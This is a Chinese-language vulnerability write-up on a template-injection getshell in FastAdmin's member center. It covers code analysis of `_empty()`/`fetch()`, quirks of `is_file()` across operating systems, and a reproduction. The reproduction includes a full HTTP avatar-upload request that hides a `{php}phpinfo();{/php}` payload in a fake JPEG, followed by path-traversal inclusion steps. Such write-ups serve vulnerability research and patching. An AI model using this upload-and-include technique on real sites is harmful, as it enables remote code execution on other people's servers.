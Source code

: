 FastAdmin 会员中心前台getshell
==============================

一、漏洞简介
------------

### 利用条件

`/application/config.php` 文件中：

    //是否开启前台会员中心
    'usercenter'            => true,

即需要开启会员中心功能

二、漏洞影响
------------

V1.0.0.20200506\_beta

三、复现过程
------------

### 漏洞分析

`/application/index/User.php`文件

第58-67行：

     public function _empty($name)
        {    
            $data = Hook::listen("user_request_empty", $name);
                foreach ($data as $index => $datum) {
                $this->view->assign($datum);
                }
        return $this->view->fetch($name);
    }
    user_request_empty`为开发者预留的钩子可以忽视不看，主要看` return $this->view->fetch($name);

此方法中的`$name`参数可控，并且将`$name`的值传入到了`fecth()`函数中。

`fetch()`为thinkphp的解析模板函数，其返回模板文件渲染后的内容

`fetch()`函数的关键内容如下：

      public function fetch($template, $data = [], $config = [])
        {
            if ('' == pathinfo($template, PATHINFO_EXTENSION)) {
                // 获取模板文件名
                $template = $this->parseTemplate($template);
            }
            // 模板不存在 抛出异常
            if (!is_file($template)) {
                throw new TemplateNotFoundException('template not exists:' . $template, $template);
            }
            // 记录视图信息
            App::$debug && Log::record('[ VIEW ] ' . $template . ' [ ' . var_export(array_keys($data), true) . ' ]', 'info');
            $this->template->fetch($template, $data, $config);
        }

继续调用栈可以看下其实这个fetch()函数调用的是内置模板引擎的fetch方法，
这个方法实际上就是将要输出的页面内容赋值给一个变量，为了方便，thinkphp在对模板渲染的过程中，添加了php标签功能，使得其可以解析php代码。

总之一句话，这个漏洞其实就是由于对传入变量过滤不严导致的模板引擎注入漏洞，只要控制了传入模板的文件，就可以利用模板本身的渲染功能，实现包含漏洞getshell

另外需要注意的是，当验证传入的模板是否是文件时，使用的`is_file()`函数，这个函数在Linux下和windows下的判断会有所不同，具体如下：

1、在linux下利用`is_file()`来判断类似于`/****/../../../../etc/passwd`文件时，如果`****`是不存在的目录，则会返回false，在windows下
，这个目录存在与否，均返回true，如下图所示：

![1.png](./.resource/FastAdmin会员中心前台getshell/media/rId26.png)

![2.png](./.resource/FastAdmin会员中心前台getshell/media/rId27.png)

2、在linux下，`is_file()`函数判可用于判断符号链接

3、在linux下，`is_file`函数会受到权限的影响，当前用户权限不足或父目录没有设置+x权限时，`is_file()`会返回false

4、windows系统里面`/`和`\` 都可以使用，但是在linux下只能使用`/`
来分隔路径，因此这会导致`is_file()`在不同系统下的返回结果不一致

![3.png](./.resource/FastAdmin会员中心前台getshell/media/rId28.png)

![4.png](./.resource/FastAdmin会员中心前台getshell/media/rId29.png)

5、`is_file()`判断文件时，如果文件大小超过2\^32时，会判断失败

### 漏洞复现

通过前文可知，这个漏洞的利用点在`_empty()`函数，需要注意的是，在官方文档中通常`_empty()`方法是用来判断一个方法是否存在，如果不存在，则进入该函数。而这里是开发者自定义的方法，因此直接传入`_empty`方法，调用name参数即可。

利用过程如下：

在前台的会员中心，个人资料处，上传修改头像：

![5.png](./.resource/FastAdmin会员中心前台getshell/media/rId31.png)

抓包后修改图片数据（满足图片头格式即可）：

    POST /index/ajax/upload HTTP/1.1
    Host:www.0-sec.org:8088
    Content-Length: 596
    Origin: http://122.114.216.233
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Accept: */*
    Referer: http://103.40.247.24/index/user/profile.html
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1600651554; PHPSESSID=e42uhkmhirv29cpd82qbubigd7; uid=3; token=251be91c-040b-4231-b955-76c3ecfaf4f4; Hm_lpvt_f8d0a8c400404989e195270b0bbf060a=1600651809
    Connection: close
    
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Content-Disposition: form-data; name="name"
    
    400x400a0a0.jpg
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq
    Content-Disposition: form-data; name="file"; filename="400x400a0a0.jpg"
    Content-Type: image/jpeg
    
    ÿØÿà8Photoshop 3.08BIM8BIM%"
    {php}phpinfo();{/php}
    ------WebKitFormBoundaryJ60Dcmopu4qDLQwq--

![6.png](./.resource/FastAdmin会员中心前台getshell/media/rId32.png)

记录下路径后，成功getshell

![7.png](./.resource/FastAdmin会员中心前台getshell/media/rId33.png)

在Linux下，通过这种方法会失效，因为在`/public`路径下不存在`user`目录，由前文中的知识点可以知道，当不存在这个目录的时候，无论怎么跳转目录，`is_file()`函数返回的结果始终未false，因此无法利用该漏洞，如下图所示：

![8.png](./.resource/FastAdmin会员中心前台getshell/media/rId34.png)

当我们在`/public`目录下创建文件夹`/user`，在利用，即可成功：

![9.png](./.resource/FastAdmin会员中心前台getshell/media/rId35.png)

参考链接
--------

> https://www.cnpanda.net/codeaudit/777.html
